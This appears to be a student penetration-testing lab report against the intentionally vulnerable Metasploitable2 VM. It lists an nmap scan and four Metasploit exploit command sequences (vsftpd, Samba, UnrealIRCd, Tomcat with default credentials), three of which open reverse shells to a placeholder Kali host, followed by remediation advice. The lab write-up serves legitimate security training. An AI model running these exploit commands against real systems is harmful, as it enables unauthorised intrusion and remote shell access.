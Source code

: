 # 🛡️ Penetration Testing Report – Metasploitable2

## 📌 Target Information
- \*\*Target IP:\*\* `192.168.1.186`
- \*\*OS:\*\* Linux (Metasploitable2 VM)
- \*\*Assessment Tool:\*\* Kali Linux + Metasploit Framework
- \*\*Objective:\*\* Identify and exploit known vulnerabilities on the target system.

---

## 🔎 1. Reconnaissance & Scanning

### 🔧 Tool Used:
- `nmap`

### 🔍 Command Executed:

```bash
nmap -sC -sV -Pn 192.168.1.186 -oN metasploitable\_scan.txt
```
### 📄 Key Open Ports & Services:

* `21/tcp` – vsftpd 2.3.4
* `139, 445/tcp` – Samba 3.0.20
* `6667/tcp` – UnrealIRCd 3.2.8.1
* `8180/tcp` – Apache Tomcat 5.5
* and more...

![Meta](file:///C:/Users/moham/OneDrive/Desktop/Meta.png)



## 💣 2. Exploitation Phase

## ✅ Exploit #1: `vsftpd 2.3.4` Backdoor

- **Module:** `exploit/unix/ftp/vsftpd_234_backdoor`
- **Payload:** `cmd/unix/interact`
```
use exploit/unix/ftp/vsftpd\_234\_backdoor
set RHOSTS 192.168.1.186
run
```
🔓 Successfully opened a command shell.



![Shell1](file:///C:/Users/moham/OneDrive/Desktop/Shell1.png)

## ✅ Exploit #2: `Samba 3.0.20` – Usermap Script

- **Module:** `exploit/multi/samba/usermap_script`
- **Payload:** `cmd/unix/reverse`

```
bashCopyEdituse exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.186
set RPORT 139
set LHOST <Kali_IP>
set PAYLOAD cmd/unix/reverse
exploit
```

🔓 Reverse shell established.

![M Eta2](file:///C:/Users/moham/OneDrive/Desktop/MEta2.png)
![Shell3](file:///C:/Users/moham/OneDrive/Desktop/Shell3.png)
## ✅ Exploit #3: `UnrealIRCd 3.2.8.1` Backdoor

- **Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`
- **Payload:** `cmd/unix/reverse`

```
bashCopyEdituse exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.1.186
set RPORT 6667
set LHOST <Kali_IP>
exploit
```
🔓 Backdoor exploited successfully.

![Unreal](file:///C:/Users/moham/OneDrive/Desktop/Unreal.png)


## ✅ Exploit #4: Apache Tomcat 5.5 – WAR Upload


- **Module:** `exploit/multi/http/tomcat_mgr_upload`
- **Credentials:** `tomcat:tomcat` (default)
- **Payload:** `java/shell_reverse_tcp`

```
bashCopyEdituse exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.1.186
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST <Kali_IP>
set PAYLOAD java/shell_reverse_tcp
exploit
```

🔓 WAR file uploaded, shell returned.

![Tomcat](file:///C:/Users/moham/OneDrive/Desktop/Tomcat.png)
## 🧾 3. Summary of Findings
| Vulnerability | Service | Exploit Module | Result |
| --- | --- | --- | --- |
| vsftpd Backdoor | FTP (21) | exploit/unix/ftp/vsftpd\_234\_backdoor | Shell access |
| Samba Usermap | Samba (139/445) | exploit/multi/samba/usermap\_script | Reverse shell |
| UnrealIRCd Backdoor | IRC (6667) | exploit/unix/irc/unreal\_ircd\_3281\_backdoor | Reverse shell |
| Tomcat WAR Upload | HTTP (8180) | exploit/multi/http/tomcat\_mgr\_upload | Reverse shell |

## 🔐 4. Recommendations

🔸 **Upgrade vulnerable services:**

- Replace outdated versions of vsftpd, Samba, UnrealIRCd, and Apache Tomcat.

🔸 **Restrict access to management panels:**

- Limit Tomcat Manager access by IP and strong credentials.

🔸 **Disable unused services:**

- Disable services like IRC, NFS, rlogin if not needed.

🔸 **Use Firewalls & IDS:**

- Monitor and restrict incoming connections using iptables or ufw.